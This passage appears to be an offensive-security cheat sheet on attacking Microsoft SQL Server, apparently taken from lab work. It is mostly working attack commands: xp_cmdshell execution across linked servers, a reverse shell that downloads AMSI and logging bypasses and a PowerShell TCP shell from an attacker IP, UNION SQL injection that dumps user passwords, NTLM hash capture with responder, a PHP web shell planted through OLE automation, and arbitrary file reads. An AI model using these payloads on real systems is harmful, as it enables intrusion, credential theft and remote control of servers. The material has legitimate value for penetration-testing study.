Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'cmd /c set username'"

# Execute queries on a target linked server
$Out = Get-SQLServerLinkCrawl -Username "user01" -Password "Pass123" -Instance "SQL01" -Query "SELECT SYSTEM_USER" -QueryTarget "SQL02";
$Out

# Reverse shell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.37/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://172.16.100.37/amsibypass.txt);iex (iwr -UseBasicParsing http://172.16.100.37/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget eu-sql23
```


## Other

### Context Change

When executing OS-level commands via `xp_cmdshell`, the commands run in the security context of the SQL Server service account:

```sql
>EXEC xp_cmdshell 'whoami';
---------------------------
nt service\mssql$db_public
```

SQL Server supports executing external R or Python scripts through the `sp_execute_external_script` stored procedure. These scripts run under a separate runtime and can have different OS-level execution contexts, potentially with higher privileges:

```sql
-- Enable external scripting feature
> EXEC sp_configure 'external scripts enabled', 1;
> RECONFIGURE;

-- Execute a Python payload
> EXEC sp_execute_external_script
    @language = N'Python',
    @script = N'import os; os.system("whoami")';
...
compatibility\db_public01
```

### SQLi


```sql
-- Column number
q=anger' ORDER BY 1;--
q=anger' UNION SELECT NULL;--
q=anger' UNION SELECT 1;--

-- Character column
q=anger1' UNION SELECT 'a',2,3,4,5,6;-- -

-- Version
q=anger1' UNION SELECT 1,@@version,3,4,5,6;--

-- Databases
q=anger1' UNION SELECT 1,name,3,4,5,6 FROM master..sysdatabases--
q=anger1' UNION SELECT 1,name,3,4,5,6 FROM sys.databases--

-- Tables
q=anger1' UNION SELECT 1,CONCAT(name,':',id),3,4,5,6 FROM streamio..sysobjects--

-- Columns
q=anger1' UNION SELECT 1,name,3,4,5,6 FROM streamio..syscolumns WHERE id=901578250--

-- Data
q=anger1' UNION SELECT 1,(SELECT STRING_AGG(CONCAT(username,':',password),'|') FROM users),3,4,5,6--
```



```sql
-- LAN stacked 1
-- Check connection back with nc on port 445, and then responder
q=anger1'; exec dir_tree '\\<attack-ip>\\sharename\file'--
```



```bash
# LAN stacked 2

# First connection
sudo nc -lvnp 445
listening on [any] 445 ...
connect to [10.10.14.121] from (UNKNOWN) [10.10.11.158] 50883
E�SMBrS�����""NT LM 0.12SMB 2.002SMB 2.???^C

# Second connection
sudo responder -I tun0
<SNIP>
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.10.11.158
[SMB] NTLMv2-SSP Username : streamIO\DC$
[SMB] NTLMv2-SSP Hash     : DC$::streamIO:c45d729b18399cdd:DC4...000
```



```sql
-- Wildcards
SELECT * FROM movies WHERE name LIKE '%anger%';
SELECT * FROM movies WHERE CONTAINS (name,'*500*');
```


### Write Files

To write file in MSSQL, we need to enable [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option), which requires admin rights, and then execute some stored procedures to create the file:


```sql
-- Enable Ole Automation Procedures
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO

-- Create a file
> DECLARE @OLE INT; DECLARE @FileID INT; EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT; EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1; EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'; EXECUTE sp_OADestroy @FileID; EXECUTE sp_OADestroy @OLE; GO
```


### Read Files

By default, MSSQL allows file read on any file in the OS to which the account has read access:


```sql
-- Read local file
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

